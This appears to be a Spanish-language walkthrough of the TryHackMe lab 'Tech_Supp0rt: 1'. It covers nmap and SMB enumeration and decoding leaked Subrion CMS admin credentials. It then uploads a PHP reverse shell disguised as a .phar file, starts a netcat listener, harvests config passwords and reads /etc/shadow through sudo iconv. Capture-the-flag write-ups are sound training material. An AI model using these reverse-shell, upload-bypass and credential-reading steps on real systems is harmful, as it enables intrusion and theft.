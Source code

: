 # Guía de Explotación - TryHackMe Tech_Supp0rt: 1

## 1. Reconocimiento

Iniciamos el reconocimiento con un escaneo de Nmap utilizando el siguiente comando:

```bash
nmap -sC -p- --open -n --max-rate 1000 -sV IP_MAQUINA_ATACADA
```

![alt text](./assets/image.png)

El escaneo revela los siguientes puertos abiertos:
- **22/TCP** (SSH)
- **80/TCP** (HTTP)
- **139/TCP** (SMB)
- **445/TCP** (SMB)

A continuación, enumeramos los recursos compartidos por el servidor Samba utilizando el script ``smb-enum-shares`` de Nmap:

```bash
nmap --script="smb-enum-shares" -p139 IP_MAQUINA_ATACADA
```

![alt text](./assets/image-1.png)

El script identifica tres recursos compartidos accesibles con el usuario ``guest``. Uno de estos recursos es un directorio llamado ``websvr``, en el que los usuarios anónimos tienen permisos de lectura y escritura.

Para acceder a este directorio, establecemos una conexión anónima con el siguiente comando:

```bash
smbclient //IP_MAQUINA_ATACADA/websvr -p 139 -U anonymous
```

![alt text](./assets/image-2.png)

Dentro del directorio ``websvr``, encontramos un archivo llamado ``enter.txt``. Lo descargamos y revisamos su contenido:

```bash
get enter.txt
cat enter.txt
```

![alt text](./assets/image-3.png)

El archivo contiene credenciales posiblemente válidas para acceder al portal de administración del ``CMS Subrion``. Además, menciona que existen dos sitios web, uno desarrollado en ``WordPress`` y otro en ``Subrion``.

![alt text](./assets/image-4.png)

Accedemos al portal del CMS Subrion a través del navegador:

![alt text](./assets/image-5.png)

El formulario de inicio de sesión requiere autenticación. Como la contraseña del archivo ``enter.txt`` está codificada, utilizamos la herramienta CyberChef con la operación "Magic" para identificar y decodificar la contraseña.

![alt text](./assets/image-6.png)

Tras decodificar la contraseña, nos autenticamos con las siguientes credenciales:

```plaintext
Usuario: admin
Contraseña: Scam2021
```

![alt text](./assets/image-7.png)

Ingresamos exitosamente al portal de administración, donde encontramos la opción de subir archivos. Además, identificamos que la versión del CMS Subrion es la **4.2.1**.

![alt text](./assets/image-8.png)

## 2. Ganar Acceso

Buscamos vulnerabilidades para la versión 4.2.1 en `https://www.exploit-db.com/`.

![alt text](./assets/image-9.png)

Encontramos un exploit que permite la carga de archivos ``.phar`` y ``.pht``, lo que facilita la ejecución de una **reverse shell**.

Descargamos la reverse shell en PHP:

```bash
wget http://pentestmonkey.net/tools/php-reverse-shell/php-reverse-shell-1.0.tar.gz
```

Extraemos y editamos el archivo PHP para configurar nuestra IP y puerto:

```bash
$ip = "IP_MAQUINA_ATACANTE";
$port = "PUERTO_LIBRE";
```

![alt text](./assets/image-12.png)

Renombramos la extensión de ``.php`` a ``.phar`` para evadir restricciones:

```bash
mv php-reverse-shell.php reverse.phar
```

Subimos el archivo malicioso en el panel de administración:

![alt text](./assets/image-13.png)

Ponemos a la escucha el puerto configurado:

```bash
nc -lvnp 1500
```

Ejecutamos la reverse shell accediendo a la URL donde se encuentra el archivo subido:

![alt text](./assets/image-14.png)

Estabilizamos la shell:

```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'

CTRL + Z

stty raw -echo; fg
export TERM=xterm-256color
```

![alt text](./assets/image-15.png)

## 3. Escalada de Privilegios

Buscamos credenciales en los archivos de configuración de WordPress y encontramos:

```bash
Usuario: support
Contraseña: ImAScammerLOL!123!
```

![alt text](./assets/image-19.png)

Ejecutamos:

```bash
cat /etc/passwd
```

Identificamos un usuario llamado ``scamsite``. Intentamos autenticarnos con las credenciales encontradas:

![alt text](./assets/image-20.png)

Ahora enumeramos los comandos que ``scamsite`` puede ejecutar con privilegios elevados:

```bash
sudo -l
```

![alt text](./assets/image-21.png)

Observamos que el usuario puede ejecutar `iconv` con permisos de root. Este comando se usa para la conversión de codificación de caracteres, pero podemos explotarlo para leer archivos restringidos como ``/etc/shadow``.

Ejecutamos:

```bash
sudo iconv -f /etc/shadow
```

![alt text](./assets/image-22.png)

Finalmente, accedemos al archivo ``root.txt`` y obtenemos la flag:

![alt text](./assets/image-23.png)

¡Máquina comprometida con éxito!